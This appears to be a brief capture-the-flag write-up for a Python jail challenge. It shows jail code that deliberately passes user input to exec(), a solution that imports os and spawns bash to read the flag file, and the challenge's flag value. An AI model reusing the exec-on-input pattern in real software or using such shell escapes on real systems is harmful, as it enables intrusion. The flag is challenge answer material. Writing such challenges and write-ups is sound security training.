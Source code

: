 ## IncognitoCTF 4.0 - The only jail (Misc)

This was a simple pyJail challenge.
The challenge code was as follows:

**jail.py**

```python3
import string

ALLOWED_CHARS = string.ascii_letters + string.digits + '.' + '=' + "\"" + " " + "(" + ")" + "*" + ":"+"'"+","

FORBIDDEN_BUILTINS = ['open', 'eval', 'exec', 'execfile']

def check_input(input_str):
    for char in input_str:
        if char not in ALLOWED_CHARS:
            raise ValueError("Error: forbidden character '{}'".format(char))

def remove_builtins():
    for builtin in FORBIDDEN_BUILTINS:
        if builtin in globals():
            del globals()[builtin]

remove_builtins()

# start the jail
print("Welcome to the IIITL Jail! Escape if you can")

while True:
    try:
        user_input = input("jail> ")
        check_input(user_input)
        exec(user_input)
    except Exception as e:
        print("Error:", e)
```

**Solution**
1)	`import os`
2)  `os.system("bash")`
3)  `cd /home/ctf`
4)  `cat flag.txt`

Flag: `ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}`
